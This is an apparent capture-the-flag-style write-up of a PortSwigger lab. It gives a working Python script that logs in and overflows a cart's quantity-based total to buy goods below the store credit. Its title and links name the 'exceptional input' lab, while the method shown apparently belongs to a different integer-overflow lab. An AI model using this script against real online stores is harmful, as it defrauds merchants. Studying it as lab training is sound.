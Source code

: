 ```yaml
--- 
title: "Inconsistent Handling of Exceptional Input"
author: ""
date: 2024-06-01T18:03:29+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a4c001e030d58a4847c65e80013002f.web-security-academy.net

#### Enumeration
Access the lab, add the domain to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page, then request all embedded links via Burp proxy using the scripts below.

```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base_url = "https://0a4c001e030d58a4847c65e80013002f.web-security-academy.net"
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
content = BeautifulSoup(requests.get(base_url).text, 'html.parser')
for link in content.find_all('a', href=True):
  full_url = urljoin(base_url,link['href'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")
for img in content.find_all('img', src=True):
  full_url = urljoin(base_url,img['src'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")
```

![Enumeration](/images/bizlogic6/01-enumerate-inconsistent-handling-of-exceptional-input.png "Enumeration")  

#### Exploration
Stacking BurpSuite and the Browser with FoxyProxy extension for Burp turned on, perform a user flow for purchasing an item after logging in with the provided user credential  `wiener:peter`.  The `/login` when requested with valid credentials makes a POST request with `csrf`, `username` and `password` parameters. 

![Exploration](/images/bizlogic6/02-explore-inconsistent-handling-of-exceptional-input.png "Exploration") 

#### Exploitation
Observe a POST request  to `/cart`  with `productId`,`redir`, and `quantity` parameters. When we can manipulate the `quantity` parameter we notice that we can purchase absurd number of items which causes an [integer overflow](https://www.invicti.com/learn/integer-overflow/) at some point. We exploit this by tactically by adding various item to force the total price below the store credit. Doing this manually is extremely laborious thus exploit it using the script below
```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Define Variables
base_url = 'https://0a4c001e030d58a4847c65e80013002f.web-security-academy.net/'
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Get CSRF Token
def get_csrf_token(session, url):
  response = session.get(url, proxies=proxies, verify=False)
  csrf_token = BeautifulSoup(response.text, 'html.parser').find('input', {'name': 'csrf'}).get('value')
  return csrf_token

# Get Items Total Price
def get_total(session):
  cart_url = urljoin(base_url, 'cart')
  response = session.get(cart_url, proxies=proxies, verify=False)
  soup = BeautifulSoup(response.content, 'html.parser')
  total_element = soup.find('th', string='Total:')
  if total_element:
    total_text = total_element.find_next_sibling('th').text
    total_value = total_text.replace('$', '')
    return float(total_value)
  else:
    return None

# Purchase Item
def purchase_item(session, url):
  # Login
  login_url = urljoin(base_url, 'login')
  login_csrf_token = get_csrf_token(session, login_url)
  login_payload = {'username': 'wiener', 'password': 'peter', 'csrf': login_csrf_token}
  login_response = session.post(login_url, data=login_payload, proxies=proxies, verify=False)

  if login_response.status_code == 200:
    cart_url = urljoin(base_url, 'cart')
    
    while True:
      # Add first item
      cart_payload1 = {'productId': '1', 'redir': 'PRODUCT', 'quantity': '99'}
      session.post(cart_url, data=cart_payload1, proxies=proxies, verify=False)

      # Check total
      total = get_total(session)
      if -70000 < total < 0:
        break

    while True:
      # Add second item
      cart_payload2 = {'productId': '2', 'redir': 'PRODUCT', 'quantity': '58'}
      session.post(cart_url, data=cart_payload2, proxies=proxies, verify=False)

      # Check total again
      total = get_total(session)
      if -4000 < total < 100:
        break

    while True:
      # Add third item
      cart_payload3 = {'productId': '3', 'redir': 'PRODUCT', 'quantity': '17'}
      session.post(cart_url, data=cart_payload3, proxies=proxies, verify=False)

      # Check total again
      total = get_total(session)
      if 0 < total < 100:
        # Checkout
        checkout_url = urljoin(base_url, 'cart/checkout')
        checkout_csrf_token = get_csrf_token(session, cart_url)
        checkout_payload = {'csrf': checkout_csrf_token}
        checkout_response = session.post(checkout_url, data=checkout_payload, proxies=proxies, verify=False)
        if checkout_response.status_code == 200:
          print("Purchase successful!")
        else:
          print("Failed to checkout.")
        break

  else:
    print("Failed to log in.")

def main():
  session = requests.Session()
  purchase_item(session, base_url)

if __name__ == "__main__":
  main()
```
![Exploitation](/images/bizlogic6/03-exploit-inconsistent-handling-of-exceptional-input.png "Exploitation") 

![Solution](/images/bizlogic6/04-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-handling-of-exceptional-input
- https://github.com/knoxknot/portswigger/tree/main/business-logic/06-inconsistent-handling-of-exceptional-input